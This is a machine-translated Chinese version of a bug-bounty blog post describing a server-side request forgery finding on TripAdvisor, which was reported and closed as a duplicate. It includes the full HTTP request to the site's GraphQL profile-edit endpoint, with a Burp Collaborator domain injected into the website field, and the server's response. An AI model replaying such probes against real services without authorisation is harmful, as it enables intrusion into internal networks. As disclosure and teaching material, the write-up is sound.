



# 服务器端请求伪造(SSRF)

> 原文：<https://infosecwriteups.com/server-side-request-forgery-ssrf-8e0fa290f7e6?source=collection_archive---------2----------------------->

## 破坏访问控制(BAC)>服务器端请求伪造(SSRF)


照片由 [Unsplash](https://unsplash.com?utm_source=medium&utm_medium=referral) 上的 [Justaf Abduh](https://unsplash.com/@jabacule?utm_source=medium&utm_medium=referral) 拍摄

## 什么是 SSRF？！

服务器端请求伪造( **SSRF** )是一种利用漏洞攻击防火墙后内部系统，从外部网络无法访问。SSRF 将访问内部运行的服务，如 SSH、本地主机、FTP 等。一个 SSRF 场景是强制服务器连接到组织基础设施内的内部专用服务。

## 简介:

在测试猫途鹰的漏洞和缺陷时，我发现它容易受到 SSRF 的攻击。我使用 Burp Suite 功能协作器发现了这个漏洞。*什么是打嗝合作者*？Burp Collaborator 是一种网络服务，Burp Suite 使用它来帮助发现多种漏洞。**例如**，一些基于注入的漏洞可以使用有效载荷进行检测，当成功注入时，有效载荷会触发与外部系统的交互。

## **我是这样做的:**

1.  打开“打嗝套件”>“打嗝菜单”>“打嗝合作者客户端”,然后选择“打嗝合作者客户端”
2.  单击显示“复制到剪贴板”的位置，这将复制利用 web 应用程序所需的有效负载，例如:` jhggfwo 94 Wu 094 CTR trstwrvterwt 0 tvwg . burpcollaborator . net '

3.将 Collaborator 客户端有效负载粘贴到网站字段，如下所示，并转发请求。

4.使用“立即轮询”功能检索有效负载产生的任何网络交互的详细信息。

5.等待奇迹发生。

## Http 请求:

```
POST /data/graphql/batched HTTP/1.1
Host: www.tripadvisor.com
User-Agent: Mozilla/5.0 
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
content-type: application/json
Origin: https://www.tripadvisor.com
Content-Length: 1520
Connection: close[{"operationName":"EditProfile","variables":{"userId":"9A9A11C7013E070C233A82C19CC97D78","displayName":null,"username":null,"bio":null,"hometown":null,"website":"**e3i57wj14co4lyphm5kwqx8xjoped3.burpcollaborator.net**","acceptedToU":true}]
```

## Http 响应:

```
RESPONSE
HTTP/1.1 200 OK
Server: Apache
Pragma: no-cache
P3P: CP="NOI CURa ADMa DEVa TAIa OUR BUS IND UNI COM NAV INT DSP COR CAO PSA IDC ADM DEVi TAIi PSD IVAi IVDi CONi HIS CNT"
Cache-Control: no-cache, no-store, must-revalidate
Timing-Allow-Origin: https://www.tripadvisor.com
Vary: Accept-Encoding
Content-Length: 2089
Content-Type: application/json
Date: Mon, 21 Sep 2020 17:54:47 GMT
Connection: close

[{"data":{"updateMemberProfile":{"statuses":["OK"],"memberProfile":{"userId":"9A9A11C70C97D78","avatar":{"id":********,"photoSizes":[{"url":"https://dynamic-media-cdn.tripadvisor.com/media/photo-o/1a/f6/e7/99/default-avatar-2020-57.jpg?w=100&h=100&s=1","width":0,"height":0,"__typename":"PhotoSize"},{"url":"https://media-cdn.tripadvisor.com/media/photo-t/99/default-avatar-2021-75.jpg"}]
```

## 合作者回应:



## 该报告:

本文有趣的部分来了。



我一看到那些日志，就告诉自己“是的，我发财了！”。呃，不太好。通过阅读他们的反应，你可以知道我高兴得太早了。几年前有人送来了同样的报告。他们的反应让我措手不及，因为这不是一个容易的发现。只有仔细检查 web 应用程序的每一个响应/请求，以便找到一个字段来添加您的有效负载并希望得到响应，才有可能利用该漏洞。

## 奖励:


报酬

看上面的照片，你可以看到这个报告的结果。老实说，得到 ***1* 点**作为“奖励”并不是我发这份报告的初衷。但是有总比没有好，不是吗？！

## **总结**

虽然我的工作没有得到任何奖励，但从中得到了一些好的东西，经验。现在，我知道了要利用哪些端点，以及利用哪些端点或利用哪些端点。永远不要让这种结果让你气馁。重复的意思是你做了有价值的事情，你只是在别人之后做了，但是你做了。